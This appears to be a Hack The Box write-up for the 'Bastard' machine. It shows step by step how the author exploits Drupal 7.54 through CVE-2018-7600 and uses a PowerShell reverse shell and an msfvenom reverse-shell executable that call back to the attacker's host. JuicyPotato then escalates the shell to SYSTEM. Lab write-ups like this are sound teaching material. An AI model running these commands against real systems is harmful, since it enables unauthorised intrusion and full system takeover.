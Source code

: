 ```yaml
---
title: HTB - Bastard
description: ""
date: 2024-08-20 06:25:00 -0600
categories:
  - writeups
  - hackthebox
  
tags:
  - writeup
  - drupal
  - potato_privesc
  - clsid
  - hackthebox

image:
 path: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/a8d2ae87fbe6d1ccfe93522d74defb3a.png

---
```


## Enumeration

Starting with a nmap scan I find three open ports 

```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.9 -oG allPorts -vvvv
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 127
135/tcp   open  msrpc   syn-ack ttl 127
49154/tcp open  unknown syn-ack ttl 127
```

Visiting the port 80 I find a drupal login panel

![Desktop View](/assets/img/htb/bastard/drupal_login_1.png)


doing a curl to the changelog.txt I'm able to enumerate the version which in this case is 7.54
```bash
$ curl -s -X GET http://10.10.10.9/CHANGELOG.txt  | head

Drupal 7.54, 2017-02-01
-----------------------
```

## shell as iusr 

searching for some exploits I find this [CVE-2018-7600](https://github.com/pimps/CVE-2018-7600) that allows me to get remote command execution on the machine 

```bash
$ python drupa7-CVE-2018-7600.py -c 'whoami' http://10.10.10.9/
[*] Triggering exploit to execute: whoami
nt authority\iusr
```

To get a stable shell I use the base64 powershell reverse shell from [revshells](https://www.revshells.com/) I start a nc listener on port 9001 and receive the connection

```sh
$ python drupa7-CVE-2018-7600.py -c 'powershell -e JABjAGwAa...' http://10.10.10.9/
```

```
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.9] 51840

PS C:\inetpub\drupal-7.54> whoami
nt authority\iusr
PS C:\inetpub\drupal-7.54> 
```

Enumerating privileges I see that the seimpersonate privilege is enabled which might allow me to use a juicy potato or a similar exploit to elevate privileges

```bash
PS C:\inetpub\drupal-7.54> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
PS C:\inetpub\drupal-7.54> 
```

## shell as nt authority\system

I create a shell.exe file with msfvenom that will give me a reverse shell 

```shell
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -f exe -o shell.exe
```

I download juicy potato and the shell.exe executable files into the target machine 

```sh
PS C:\windows\temp\x> copy \\10.10.14.13\smbfolder\shell.exe . 
PS C:\windows\temp\x> copy \\10.10.14.13\smbfolder\jp.exe .
```

I start another nc listener on port 9001 and then I try to run jp.exe with the program shell.exe but it fails

```sh
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p .\shell.exe 
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
COM -> recv failed with error: 10038
```

The reason is that the clsid is wrong so I look for a valid one [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise) I retry the exploit two times until it gives an "OK" response
```shell
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p ".\shell.exe" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 1337
...........................................
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p ".\shell.exe" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 1337
....
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\windows\temp\x> 
```

and finally I receive a shell as nt authority\system

```
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.9] 63808
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```


